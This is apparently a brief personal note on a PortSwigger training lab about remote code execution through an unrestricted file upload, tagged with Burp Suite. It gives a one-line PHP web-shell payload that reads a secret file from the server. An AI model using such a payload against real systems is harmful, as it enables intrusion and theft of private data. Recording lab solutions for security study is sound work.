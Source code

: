# Remote code execution via web shell upload

Source: Portswigger
Tools: Burpsuite
Technique: FIle upload
Fields: Web

- no restriction → upload php file( <?php echo file_get_contents('/home/carlos/secret'); ?> )